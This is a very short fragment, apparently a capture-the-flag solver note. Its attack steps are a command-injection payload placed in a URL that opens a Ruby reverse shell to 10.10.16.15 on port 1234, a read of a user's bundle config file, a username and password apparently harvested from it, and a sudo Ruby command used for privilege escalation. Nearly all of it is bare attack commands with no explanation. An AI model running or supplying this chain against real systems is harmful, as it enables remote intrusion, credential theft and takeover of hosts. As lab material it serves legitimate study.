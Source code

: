 ## Solver
http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.15",1234))'`</b>
cat ~/.bundle/config </b>
henry:Q3c1AqGHtoI0aXAYFH</b>
sudo /usr/bin/ruby /opt/update_dependencies.rb